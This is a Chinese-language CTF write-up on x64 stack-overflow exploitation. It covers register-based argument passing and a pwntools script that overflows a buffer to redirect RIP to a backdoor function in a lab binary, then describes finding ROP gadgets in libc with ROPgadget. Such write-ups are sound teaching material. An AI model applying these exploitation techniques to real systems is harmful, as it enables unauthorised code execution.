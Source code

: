 

----



## linux_64与linux_86的区别

linux_64与linux_86的区别主要有两点：**首先是内存地址的范围由32位变成了64位**。但是可以使用的内存地址不能大于0x00007fffffffffff，否则会抛出异常。**其次是函数参数的传递方式发生了改变**，x86中参数都是保存在栈上，但在x64中的前六个参数依次保存在RDI，RSI，RDX，RCX，R8和 R9中，如果还有更多的参数的话才会保存在栈上。



## x64篇

### level 3  -  通过 ROP 绕过 DEP 和 ASLR 防护

老样子，在漏洞函数中，存在着栈溢出。程序中也有预留的后门函数``callsystem``。思路就是利用栈溢出，覆写rip为后门函数内存地址``0x0000000000400584``。

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191127233714.png)

这里计算溢出需要的覆写长度，不采取原文中的方法，而是通过IDA分析计算得出，具体计算如下：0x80 + 0x8 。覆写完成后的位置到达 rip 上一个内存空间。

最终exp如下：

```python
#!python
#!/usr/bin/env python
from pwn import *

elf = ELF('level3')

p = process('./level3')
#p = remote('127.0.0.1',10001)

callsystem = 0x0000000000400584

payload = "A"*136 + p64(callsystem)

p.send(payload)

p.interactive()
```



### level 4 - 使用ROPgadget寻找gadgets

x86 的参数都是保存在栈上（即栈传参）。而 x64 的前六个参数依次保存在RDI、RSI、RDX、RCX、R8 和 R9 寄存器中，还有更多的参数才会保存到栈上。所以如果我们需要传递少量的参数就需要用到``gadget``。简单的 gadget ，我们可以通过命令 ``objdump``查找，如果需要复杂的 gadget 时（或者说更加常用的），就需要借助诸如``ROPgadget、Ropper、ROPEME``等等查询工具。

使用命令``ROPgadget --binary level4 --only "pop|ret"``搜索一下 level 4 中所有 pop ret 的 gadget。就这个程序而言，太小了，找不到``pop rdi;ret``的 gadget。（不信你试试XD）

由于程序调用了``libc.so``，那我们就查查``libc.so``中有没有需要的 gadget 。首先，需要将使用的 libc 复制到工作目录。然后在使用 ROPgadget 查询。找到gadget之后，就可以构造ROP链。
